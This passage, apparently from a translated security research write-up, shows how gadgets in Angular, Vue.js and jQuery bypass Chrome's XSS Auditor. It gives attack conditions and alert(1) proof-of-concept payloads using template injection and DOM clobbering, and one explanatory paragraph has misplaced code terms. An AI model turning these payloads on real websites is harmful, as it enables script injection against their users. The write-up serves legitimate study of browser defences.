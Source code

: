 ```html
<link rel=import href=angular.html><p ng-app>{{constructor.constructor('alert(1)')()}}
```

#### Using Vue.js

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. A page on the same origin that hosts Vue.js or loads from a CORS-enabled CDN
3. There is a script on the page or on the same origin that can perform template expansion for specially crafted tags

PoCs:

(This example is for Chrome only) 

https://vulnerabledoma.in/bypass/text?q=%3Clink%20rel=import%20href=/bypass/vue.html%3E%3Cdiv%20id=app%3E{{constructor. constructor(%27alert(1)%27)()}}

```html
<link rel=import href=/bypass/vue.html><div id=app>{{constructor.constructor('alert(1)')()}}
```

#### Using jQuery

Conditions for attacking:

1. There is XSS that can write arbitrary tags
2. A page on the same origin that hosts jQuery or loads jQuery from a CORS-enabled CDN
3. There is a script on the page or on the same origin that can execute jQuery additional functions for the crafted form tag

supplement:

Additional jQuery functions are , `after`, `before`, `prepend`, `append`, `html`, `replaceWith`, `wrap`, `wrapAll`, `insertBefore`, `insertAfter`, and so on `prependTo`. By using a form component with a name attribute, the reference destination of [Node.ownerDocument](https://developer.mozilla.org/ja/docs/Web/API/Node/ownerDocument) is misunderstood, and the script is executed when it should not be executed (this technique is known as DOM [Clobbering](https://www.slideshare.net/x00mario/in-the-dom-no-one-will-hear-you-scream/21)). [In addition, the fact that there is a process to remove](https://github.com/jquery/jquery/#L206) script blocks before execution , combined with the fact that Auditor does not block script blocks that contain only comments, causes the bypass.`appendTo` `ownerDocument` `<!--`

Reference URL:

- [https://sirdarckcat.github.io/csp/jquery.html](https://sirdarckcat.github.io/csp/jquery.html)

PoCs:

[https://vulnerabledoma.in/bypass/text?type=5&q=%3Cform%20class=child%3E%3Cinput%20name=ownerDocument%3E%3Cscript%3E%3C!--alert(1)%3C/script% 3E%3C/form%3E](https://vulnerabledoma.in/bypass/text?type%3D5%26q%3D%253Cform%2520class%3Dchild%253E%253Cinput%2520name%3DownerDocument%253E%253Cscript%253E%253C!--alert(1)%253C/script%253E%253C/form%253E)

```html
<!DOCTYPE html>
<html>
<head>
<script src="/js/jquery-3.2.1.min.js"></script>
<script>
$(document).ready(function(){
    // code taken from http://api.jquery.com/after/
    $( ".container" ).after( $( ".child" ) );
});
</script>
</head>
<body>
<!-- XSS -->
<form class=child><input name=ownerDocument><script><!--alert(1)</script></form>
```